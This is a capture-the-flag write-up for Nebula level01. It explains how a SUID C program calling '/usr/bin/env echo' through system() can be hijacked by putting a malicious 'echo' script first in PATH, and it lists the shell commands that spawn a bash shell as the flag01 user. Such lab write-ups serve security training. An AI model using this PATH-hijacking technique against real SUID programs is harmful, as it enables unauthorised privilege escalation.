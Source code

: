 
# Nebula level01

https://exploit-exercises.com/nebula/level01/

## Goal

Call `getflag` from an account that has permissions to run it. In these exercises, the goal is to call `getflag` from any of the `flag...` accounts.

## Source code

flag01.c

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Exploit

From Wikipedia:

"`/usr/bin/env` is a shell command for Unix and Unix-like operating systems. It is used to either print a list of environment variables
or run another utility in an altered environment without having to modify the currently existing environment. Using env, variables 
may be added or removed, and existing variables may be changed by assigning new values to them."

Running commands with `/usr/bin/env` will allow you to run programs with the current environment. Unfortunately, for this script, 
it means that the user can override PATH to point to their own `echo` executable, which can be elevated to run a root shell 
because `level01` is a SUID program (which means it can run as root even when the program that calls it is not root).

To exploit, create a bash script called `echo` that opens a shell. Add the directory containing `echo` to the PATH, and then run the program.
Because `flag01` is a SUID program, the echo script will be run as the `flag01` user, and you can get a shell with that user.
These are the commands to exploit the system:

```
touch ~/echo
echo "/bin/bash" > ~/echo
chmod +x ~/echo
export PATH=~:$PATH
./flag01
```

These commands open a shell as the flag01 user. Now we can just run `getflag`.
